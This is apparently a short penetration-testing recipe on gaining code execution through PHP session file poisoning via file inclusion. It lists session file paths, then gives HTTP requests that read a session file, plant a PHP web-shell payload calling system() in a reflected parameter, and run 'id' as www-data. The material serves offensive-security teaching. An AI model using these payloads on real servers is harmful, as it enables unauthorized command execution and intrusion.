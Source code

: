 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# PHP session

When a web server wants to handle sessions, it can use PHP session cookies (`PHPSESSID`).

1. Finding where the sessions are stored.

 Examples:

 * Linux : `/var/lib/php5/sess_[PHPSESSID]`
 * Linux : `/var/lib/php/sessions/sess_[PHPSESSID]`
 * Windows : `C:\Windows\Temp\`
2. Displaying a `PHPSESSID` to see if any parameter is reflected inside.

 Example:

 * The user name for the session (from a parameter called `user`)
 * The language used by the user (from a parameter called `lang`)

 _Exemple :_

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID] HTTP/2

username|s:6:"tester";lang|s:7:"English";
```

3\. Inject some PHP code in the reflected parameter in the session

```http
GET /?user=<%3fphp+system($_GET['cmd'])%3b+%3f> HTTP/2
```

4\. Call the `session file`with the vulnerable parameter to trigger a command exection

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID]&cmd=id HTTP/2

</h2> username|s:30:"uid=33(www-data) gid=33(www-data) groups=33(www-data)
";lang|s:7:"English";
```
